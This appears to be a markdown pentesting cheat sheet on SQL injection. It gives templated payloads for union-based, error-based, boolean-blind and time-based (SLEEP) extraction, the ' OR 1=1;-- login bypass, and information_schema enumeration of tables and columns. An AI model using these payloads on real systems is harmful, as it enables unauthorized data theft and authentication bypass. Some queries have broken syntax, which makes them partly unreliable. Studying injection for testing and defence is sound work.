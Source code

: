 # SQL Injection

## In-Band&#x20;

Refers to the same method of communication being used to exploit the vulnerability and also receive the results.

### Error-Based

Obtaining information about the database structure as error messages from the database are printed directly to the browser screen.

### Union-Based

Use SQL UNION operator to return additional results to the page, letting the extraction of large amounts of data.

* Determinating number of colums

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$value UNION SELECT 1
$url/query?$column=$value UNION SELECT 1,2   #Try with a extra value
$url/query?$column=$value UNION SELECT 1,2,3 #Try Until theres no message error
#This won't shows message error when number of columns coincide  
```
{% endcode %}

* Change query value

<pre class="language-sql" data-overflow="wrap" data-line-numbers><code class="lang-sql"><strong>$url/query?$column=$changedvalue SELECT UNION $found
</strong><strong>#Change until no results are shown to determine value
</strong></code></pre>

{% hint style="info" %}
`$found` is the union value that have been caught in previous step
{% endhint %}

* Check database name

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue UNION $found,database() #Try to get database
#This will return the name of DB we are searching
```
{% endcode %}

* Check information schema for DB and tables information

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue UNION $found,group_concat(table_name) FROM information_schema.tables WHERE table_schema = '$dbfound'
#This will return a string with all tables of the database
```
{% endcode %}

{% hint style="info" %}
`$dbfound`is the result of previuos query
{% endhint %}

* Check information schema for DB and tables information

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue UNION $found,group_concat(colum_name) FROM information_schema.columns WHERE table_name = '$tablefound'
#This will return a string with all colums of the table
```
{% endcode %}

* Obtain the values that we were looking for

{% code overflow="wrap" lineNumbers="true" %}
```sql
0 UNION SELECT 1,2,group_concat($value1,$value2) FROM $table
#Obtain values from the table we needed
```
{% endcode %}

## Blind

Results of the attack can't directly be seen on the screen,we get little to no feedback to confirm whether our injected queries were.

### Autenthication Bypass

Method consisting in consider that the web application isn't interested in the content of the username and password but more whether the two make a matching pair in the users table.

* We asumme the DB use tipical query for authentication

{% code overflow="wrap" lineNumbers="true" %}
```sql
SELECT * from users WHERE username='%username%' and password='%password%' LIMIT 1;
```
{% endcode %}

* Make an insertion in password field

{% code overflow="wrap" lineNumbers="true" %}
```sql
' OR 1=1;--   #Use this comparison to cheat on verification
```
{% endcode %}

### Boolean Based

Use the response we receive back from our injection if this only have two outcomes

* Check if page has verification queries

<pre class="language-sql" data-overflow="wrap" data-line-numbers><code class="lang-sql"><strong>$url/$query?$column=$value
</strong></code></pre>

* Use union injection until the state change

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION SELECT 1;
$url/query?$column=$changedvalue' UNION SELECT 1,2;   #Try with a extra value
$url/query?$column=$changedvalue' UNION SELECT 1,2,3; #Try Until the result change
#This will determinate the number of colums
```
{% endcode %}

* Find database name by iteration

<pre class="language-sql" data-overflow="wrap" data-line-numbers><code class="lang-sql"><strong>$url/query?$column=$changedvalue' UNION SELECT $found where database() like '%';
</strong>#The value % will match anything true
$url/query?$column=$changedvalue' UNION SELECT $found where database() like 'a%'; #Try a
$url/query?$column=$changedvalue' UNION SELECT $found where database() like 'b%'; #Try b
#Repeat with every letter until found a value that gets true
$url/query?$column=$changedvalue' UNION SELECT $found where database() like '$lettera%';
#Make the same process for the next value
$url/query?$column=$changedvalue' UNION SELECT $found where database() LIKE '$letter$letter2a$%';
#Repeat until found all DB name
</code></pre>

{% hint style="info" %}
`$found` is the union value that have been caught in previous step

`$letter` is the value that return true in each iteration
{% endhint %}

* Find Table name by iteration

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION $found FROM information_schema.tables WHERE table_schema = '$dbfound' and table_name LIKE 'a%';
#Repeat until found all table name
```
{% endcode %}

* Find column by iteration

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION $found FROM information_schema.tables WHERE table_schema = '$dbfound' and table_name = 'table' and column_name LIKE 'a%';
#Make iterative process to find column name
```
{% endcode %}

* Find objective value

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' FROM $table_found WHERE %column_found LIKE 'a%';
#Make iterative process to find value needed
```
{% endcode %}

* Value exceptions

{% hint style="warning" %}
If in any point of iteration you found a value that you don't need to get you must exclude it to restringe your injection and go on.This can be seen below:
{% endhint %}

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION $found FROM information_schema.tables WHERE table_schema = '$dbfound' and and tablename != $notobjective and $table_name LIKE 'a%';
```
{% endcode %}

{% hint style="info" %}
`$notobjective` refers to the value that we found but we don't need
{% endhint %}

### Time Based

Make use of time a response is generated to the request to determinate if query value was found or not. It is used when we don't get a visual return to the injection.

* Determinating number of colums

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION SELECT SLEEP($time);
$url/query?$column=$changedvalue' UNION SELECT SLEEP($time),2;
#Try until the petition time is different
```
{% endcode %}

{% hint style="info" %}
The time of a error request is always less than a correct query
{% endhint %}

* Make Boolean based iterative process to map DB,tables and columns you need

{% code overflow="wrap" lineNumbers="true" %}
```sql
#Find DB name, table, column by iterative process using sleep
$url/query?$column=$changedvalue' UNION SELECT SLEEP($time),$found FROM information_schema.tables WHERE table_schema = '$dbfound' and table_name = 'table' and column_name LIKE '%';
#The values of each step are dicted by the time the response is sent
```
{% endcode %}

* Make Boolean based iterative process to find the value you need

{% code overflow="wrap" lineNumbers="true" %}
```sql
#Find DB name, table, column by iterative process using sleep
$url/query?$column=$changedvalue' UNION SELECT SLEEP($time),$found FROM $table_found WHERE $column_found 
```
{% endcode %}

## Out Of Band

Depends on DB feature of making some kind of external network call based on the results from an SQL query. Is classified by having two different communication channels:&#x20;

* One to launch the attack  where SQLi is made to send a query.
* Other to gather the results intercepting response from a DB.
